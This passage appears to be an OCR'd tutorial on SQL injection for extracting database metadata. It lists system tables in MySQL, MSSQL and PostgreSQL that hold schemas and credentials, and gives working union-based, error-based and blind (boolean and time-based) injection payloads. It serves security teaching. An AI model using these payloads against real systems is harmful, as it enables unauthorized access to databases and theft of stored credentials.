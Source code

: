 | **Database** | **System Table/View**               | **Purpose**                                                                 |  
|--------------|-------------------------------------|-----------------------------------------------------------------------------|  
| **MySQL**    | `information_schema.tables`         | Lists all tables in the database.                                          |  
|              | `information_schema.columns`        | Reveals column names, data types, and table associations.                   |  
|              | `mysql.user`                        | Stores user accounts, privileges, and hashed passwords.                     |  
| **MSSQL**    | `sys.tables`                        | Enumerates tables in the current database.                                 |  
|              | `sys.databases`                     | Lists all accessible databases.                                            |  
|              | `sys.dm_exec_connections`           | Discovers active connections and session details (e.g., user credentials).  |  
| **PostgreSQL** | `pg_tables`                        | Shows tables accessible to the current user.                               |  
|              | `pg_shadow`                         | Stores user credentials (similar to `mysql.user`).                         |  

---

### **2. Common Techniques for Metadata Extraction**  

#### **A. Union-Based SQLi**  
Attackers inject `UNION SELECT` to combine malicious queries with legitimate ones, exposing metadata:  
```sql  
' UNION SELECT table_name, column_name FROM information_schema.columns--  
```  
This payload retrieves column names and their associated tables. If the original query returns two columns, the injected `SELECT` must also return two columns.  

#### **B. Error-Based Injection**  
Triggering syntax errors to leak metadata:  
```sql  
' OR 1=CONVERT(int, (SELECT table_name FROM information_schema.tables LIMIT 1))--  
```  
If `table_name` is non-numeric, the error message will display the first table name, exposing schema details.  

#### **C. Blind SQLi (Character-by-Character)**  
Inferring metadata incrementally:  
- **Boolean-Based Example**:  
  ```sql  
  ' AND (SELECT SUBSTRING(column_name,1,1) FROM information_schema.columns LIMIT 0,1)='P'--  
  ```  
  Attackers iterate through character positions (e.g., `SUBSTRING(column_name,2,1)`) and guess each character until the entire column name is reconstructed.  

- **Time-Based Example**:  
  ```sql  
  ' AND IF((SELECT SUBSTRING(table_name,1,1) FROM information_schema.tables LIMIT 0,1)='A', SLEEP(5), 0)--  
  ```  
  A delayed response confirms the guessed character.  
